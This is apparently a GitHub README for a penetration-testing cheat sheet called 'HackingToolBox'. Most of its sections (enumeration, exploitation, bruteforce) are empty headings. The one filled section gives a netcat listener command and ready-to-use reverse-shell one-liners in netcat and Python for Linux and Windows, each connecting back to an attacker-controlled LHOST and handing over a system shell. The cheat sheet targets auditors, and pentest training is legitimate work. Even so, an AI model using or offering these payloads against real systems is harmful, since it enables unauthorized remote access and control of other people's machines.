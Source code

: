 # HackingToolBox

**RHOST** : Ip address of the target machine  
**RPORT** : Listening port of the target machine  
**LHOST** : Ip address of the auditor computer  
**LPORT** : Listening port of the auditor computer  

## Énumération 
### Windows 
### Linux 
### Nmap
### FTP (File Transfer Protocol)
### SMB
### Web

## One-liner reverse shell
command to execute on the listener side to connect to the remote machine :
```bash
nc -lvp [LPORT]
```
### netcat
Linux : 
```bash
nc [LHOST] [LPORT] -e /bin/bash
```
Windows :
```bat
nc.exe [LHOST] [LPORT] -e cmd.exe
```
### python
Linux : 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("LHOST",LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Windows : 
```bat
C:\Python26\python.exe -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("LHOST",LPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['C:\\WINDOWS\\system32\\cmd.exe','-i']);"
```
### perl
```perl

```
### bash
### php
### ruby
### telnet
### socat
### java

## Exploitation
### msfvenom
### metasploit
### searchsploit

## Bruteforce
### John the ripper
### Hydra
